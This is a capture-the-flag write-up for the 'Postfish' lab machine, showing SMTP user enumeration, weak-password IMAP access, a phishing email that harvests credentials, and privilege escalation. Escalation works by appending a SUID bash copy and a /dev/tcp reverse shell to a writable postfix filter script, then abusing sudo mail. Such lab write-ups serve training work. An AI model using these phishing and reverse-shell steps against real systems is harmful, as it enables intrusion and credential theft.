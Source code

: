 # Postfish

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 14:08 +08
Nmap scan report for 192.168.183.137
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s
```

This box involves testing mail services. We have to add `postfish.off` to our `/etc/hosts` file to view the website on port 80.&#x20;

### Web Enumeration

The website looked rather static:

<figure><img src="../../../.gitbook/assets/image (34) (3).png" alt=""><figcaption></figcaption></figure>

There was a 'Team' page, and when viewed we get some names and roles:

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

Interesting.

### SMTP Enumeration --> Phishing Link

The website had nothing else to offer, so I went looking for exploits pertaining to the mail servers. I tested some usernames and departments like HR, and found HR existed on the server:

```
$ smtp-user-enum -M VRFY -u HR -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:15:41 2023 #########
192.168.183.137: HR exists
```

I tried some low hanging fruits, like logging in with `hr:hr` and `postfish:postfish`. Eventually, `sales:sales` worked on IMAP:

{% code overflow="wrap" %}
```
$ nc -nv 192.168.183.137 143
(UNKNOWN) [192.168.183.137] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN] Dovecot (Ubuntu) ready.
A1 LOGIN sales sales
A1 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```
{% endcode %}

I was able to find one message present within the Inbox:

```
A1 STATUS INBOX (MESSAGES UNSEEN RECENT)
* STATUS INBOX (MESSAGES 1 RECENT 1 UNSEEN 1)
A1 OK Status completed (0.001 + 0.000 secs).
```

We can read this message:

{% code overflow="wrap" %}
```
A1 SELECT INBOX
A1 FETCH 1 body[text]
* 1 FETCH (FLAGS (\Seen \Recent) BODY[TEXT] {153}
Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
)
A1 OK Fetch completed (0.001 + 0.000 secs).
```
{% endcode %}

So there's some password reset links being sent out, and perhaps we can trick a user into clicking on our link. I used `swaks` to send an email to send emails:

{% code overflow="wrap" %}
```bash
$ swaks --to SALES@postfish.off --from IT@postfish.off --header "Subject:Password Reset" --body "Click here to reset your password! http://192.168.45.208/password" --server 192.168.183.137
```
{% endcode %}

The above doesn't work, so I used 'Brian Moore', which is the name of the user part of the Sales team based on the website. There are tons of username generators online based on a name:

```bash
$ python2 username.py -n 'brian moore' > usernames
$ sed -i s/$/@postfish.off/ usernames
```

Afterwards, we can test which user is present on the server:

```
$ smtp-user-enum -M VRFY -U usernames -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usernames
Target count ............. 1
Username count ........... 93
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:31:35 2023 #########
192.168.183.137: @postfish.off exists
192.168.183.137: brian.moore@postfish.off exists
######## Scan completed at Wed Jul 12 14:31:49 2023 #########
```

`brian.moore` exists, so let's send an email to him and start a listener port to see if he clicks on our link. `swaks` doesn't seem to work for some reason, so we can just use `nc`:

```
$ nc -vn 192.168.183.137 25

MAIL FROM: IT@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Hello, 

Reset password here. http://192.168.45.208/

.

QUIT
```

After the mail sends, we get a callback on our listener port with creds:

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

We can use this password to `ssh` in as `brian.moore`:

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mail Disclaimer --> Filter Shell

I ran a `linpeas.sh` scan on the machine, and it found this interesting folder:

```
[+] Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Jul 12 06:42 /etc/postfix/disclaimer
```

It was a `bash` script:

```bash
brian.moore@postfish:~$ cat /etc/postfix/disclaimer
#!/bin/bash
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

####### Changed From Original Script #######
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
####### Changed From Original Script END #######

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

####### Changed From Original Script #######
# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi
####### Changed From Original Script END #######

$SENDMAIL "$@" <in.$$

exit $?
```

Users part of the `filter` group can write to this, and `brian.moore` is part of that group. I added this to the script:

```bash
cp /bin/bash /tmp
chmod u+s /tmp/bash
bash -i >& /dev/tcp/192.168.45.208/21 0>&1
```

This script is triggered by sending emails, so we can send another one to the machine without the phishing link to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### Sudo Mail --> Root

This new user can execute `mail` using `sudo`:

```
filter@postfish:/var/spool/postfix$ sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

We can get a `root` shell using the commands from GTFOBins:

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>
